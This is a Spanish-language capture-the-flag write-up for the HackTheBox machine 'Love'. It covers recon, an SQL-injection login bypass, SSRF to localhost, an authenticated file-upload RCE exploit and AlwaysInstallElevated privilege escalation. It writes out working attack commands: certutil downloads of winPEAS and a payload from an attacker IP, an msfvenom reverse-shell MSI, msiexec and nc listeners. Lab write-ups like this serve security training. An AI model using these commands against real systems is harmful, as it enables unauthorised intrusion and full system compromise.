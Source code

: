 ## Summary

Tags: #Windows #HTTP #HTTPS #SSRF #RCE #ReverShell #WinPEAS #Msfvenom #Nmap 
N
- IP -> 10.10.10.239
- Ports -> TCP (80,135,139,443,445,3306,5000,5040,5985,7680,47001,), UDP (idk)
- OS ->  Windows 
- Services & Applications
    - 80 -> Apache httpd 2.4.46 
    - 443 -> HTTPS

## Recon

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

* Podemos ver si se inyectan comandos SQL en la pagina web
```bash
❯ Ctrl + u                             # Para ver el codigo fuente
```

Cuando una Web es muy simple, podemos usar el siguiente comando 
```bash
❯ nmap --script http-enum -p80 ❮Target IP❯ -oN WebScan #  http-enum = Aplica Fuzing a HTTP, utiliza un diccionario de 1000 rutas y ver si hay algunas rutas existen

	#  -p80 = Indica el puerto que se quiere escanear
	#  Target IP = Dirección IP que se quiere escanear
	#  -oN WebScan = Exporta el output a un fichero en formato nmap con nombre “WebScan”
```

Por lo que encontramos un posible **Admin** folder y lo colocamos en la url y efectivamente, nos coloca otra ventana de inicio de sesion pero en este caso nos pone usuario y passwd. 

```bash
❯ searchsploit  voting system                 # Para buscar un exploit
```
Para ver si hay vulnerabilidades con ese nombre. Encontramos uno que dice **Autentication Bypass 1.0 (SQLI)** y es un archivo .txt, los que dicen online creemos que no aplican 

```bash
❯ searchsploit -x 49843.txt              # Para ver el contenido del exploit 

	# x = examin
```
Para ver el contenido del archivo (x=examing)

Al ver contenido del exploit nos damos cuenta que debemos de tramitar un peticion por **POST** y debemos de meter en el login una inyeccion SQL. Por lo que nos disponemos a abrir BurpSuite y copiamos todo el login que se encuentra en el archivo .txt qye habiamos visto

Despues de colocar la inyeccion y darle Forward nos loggea automaticamente. 
Podemos enviar la data que encontramos en el Searchsploit con el boton de ‘Forward’ y luego desactivamos el ‘intercept a off’


**** 

Otra forma de hacerlo es por medio del puerto **443 ssl/http** en donde observamos que existe un subdominio el cual podemos utilizar para saber si hay algo que nos pueda ayudar. Pero antes debemos de agregar el **dominio y subdominio** a la ruta **/etc/hosts** ya que existe un virtual hosting.

```bash
❯ openssl s_client -connect ❮IP❯:443     # Para conectarnos al openssl e inspeccionar el certificado del puerto 443
```
* staging.love.htb y love.htb -> El dominio que debemos de agregar

Una vez agregado el subdominio podemos mirarlo en la pagina web 
Tiene una pestana de **demo** en donde hay una opcion que nos indica que ‘**especifiquemos una url**’

```bash
❯ python3 -m http.server 80              # Nos montamos un servidor http 80
```

```bash
❯ nano test                              # Nos creamos un archivo llamado test en el cual le agregamos cualquier informacion
En la pagina web colocamos la url de nuestro servidor y buscamos ese archivo http://10.10.14.2/test y nos damos cuenta que nos muestra el contenido de nuestro archivo
```

Cuando la pagina web nos muestra informacion en la misma web podemos creer que es un SSRF
Por lo que nos podemos aprovechar de eso y hacer un **Server Side Request Forgery (SSRF)** 

Primero hacemos que escanee la url del puerto 80 **\http://127.0.0.1** o sea, escaneara el propio localhost de la maquina victima

Haremos que el mismo servidor se haga un internal port discovery desde el **local-host (\http://localhost:5000/ o \http://127.0.0.1:5000)** por el puerto 5000 ya que ese puerto es open, esto significa que el mismo servidor nos podria dar informacion por un puerto especifico haciendo la peticion internamente.

Ahi encontraremos el usuario admin y su passwd 

****

Buscaremos en searchsploit pero ahora el exploit en donde dice que ya estamos autenticados que se llama **File Upload RCE (Autenthicated Remote Code Execution)**

```bash
❯ searchsploit ❮exploit_name❯                 # Para buscar un exploit
```

```bash
❯ searchsploit -m ❮exploit_name❯              # Para descargarnos el exploit .py/.txt 

	# m = move
```
Puedes descargarte el archivo sploit ejecutable a tu computadora para despues poder ejecutarlo (m=move). Podemos observar que es el tipico sploit en el cual debes de meter IP, usuario, contrasena, IP de la revershell, Puerto de la revershell, para poder hacer esa autenticacion y poder ser ususario root.

```bash
❯ nano 49445.txt                              # Para ver el contenido del exploit y modificarlo, para poder usarlo 
```

Debemos de hacer algunas modificaciones al script como:
* love.htb -> Colocarle la IP de la pagina victima
* admin -> usuario
* loveisintheair!!! -> passwd
* 10.10.14.2 -> Nuestra IP
* 443 -> Puerto de Netcat

Debemos quitarle todos los /**votesystem/** ya que eso no existe en nuestra ruta en el servidor victima.
```python
❯ python3 49445.py                            # Para ejecutar el exploit
```

Una vez corregido ejecutamos el script y nos pondemos en escucha en el puerto 443
```bash
❯ rlwrap nc -nlvp 443
```

## User

Una vez adentro nos vamos a:
```bash
❯ cd C:\Users                    # Nos cambiamos de directorio
❯ dir                            # Para ver el contenido del directorio
❯ cd Phoebe                      # Nos movemos al dir del usuario phoebe
❯ cd Desktop                     # En el desktop podemos encontrar la primer flag, user.txt
```

Ahora debemos de escalar privilegios para poder ser usuario root.
```bash
❯ cd Windows/temp                # Empezamos llendonos a ese directorio para crear una carpeta, ya que ese dir tiene privilegios de lectura y escritura
❯ mkdir Privesc                  # Creamos el directorio para escalar privilegios.
```

```bash
❯ systeminfo                     # Podemos observar la informacion del sistema Windows
```

* **Herramienta WinPEAS**: [WinPEAS](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md) 
Nos dirigimos a: Download the **latest obfuscated and not obfuscated versions from here**, -> Despues debemos de descargar el archivo **winPeasx64.exe**

Podemos usar la herramienta **Winpeas** en el sistema Windows. Nos dirigimos en Google a la pagina oficial en Github de Carlospolop y descargamos de ahi el archivo ejecutable de 64 bits. Lo encontramos en realises como **winPeasx64.exe**

Lo traemos a nuestra ruta de trabajo y nos creamos un servidor para poder subirlo a la maquina victima
```bash
❯ python3 -m http.server 80              # Nos montamos un servidor http 80
```

Despues en la maquina victima Windows le decimos que queremos cargar un archivo.
```
❯ certutil.exe -f -urlcache -split \http://10.10.14.2/winPeas.exe winPeas.exe
```
Subiremos el archivo con el nombre de winPeas.exe y lo depositaremos como winPeas.exe en el equipo victima, esto se lograra con una peticion GET a nuestro servidor.

**WinPeas** sirve para detectar vias potenciales para poder escalar privilegios.
```bash
❯ winPeas.exe                            # Para ejecutar el archivo .exe en Windows
```

Podemos observar que de toda la informacion nos despliega el ‘**Checking AlwaysInstallElevated**’ y tiene:
* **set 1 in HKLM** 
* **set 1 in HKCU** lo cual es malo para esa maquina Windows.

* [Hacktricks](https://book.hacktricks.xyz/welcome/readme) nos ayudara a escalar privilegios

Vamos a la url que nos ofrece esa vulnerabilidad, 
Filtrmos por **AlwaysInstallElevated**
Nos indica que debemos utilizar el siguiente comando en nuestra maquina de atacante para poder crear un archivo que despues subiremos a la maquina Windows

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST=10.10.14.2 LPORT=443 -f msi -o reverse.msi 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura
```


## Root

Una vez creado el archivo **.msi** lo subimos a la maquina victima creando un servidor con python como lo hicimos anteriormente.
```bash
❯ python3 -m http.server 80              # Nos montamos un servidor http 80
```

Despues en la maquina victima le decimos que queremos cargar ese archivo.
```bash
❯ certutil.exe -f -urlcache -split http://10.10.14.2/reverse.msi reverse.msi

	# Ip = Maquina de atacante
```
Buscamos el archivo con ese nombre **reverse.msi** y lo depositarremos como reverse.msi en el equipo victima Windows.

```bash
❯ rlwrap nc -nlvp 443
```

Para instalar el archivo .msi en una maquina Windows debemos de colocar el siguiente comando:
```bash
❯ msiexec /quiet /qn /i reverse.msi
```
Una vez que ejecutemos el archivo en la maquina victima Windows, esta nos dara una revershell y en este caso seremos usuario **Authority\System** que seria el root.
Ahora nos vamos al Desktop del Administrator y buscamos la flag root.txt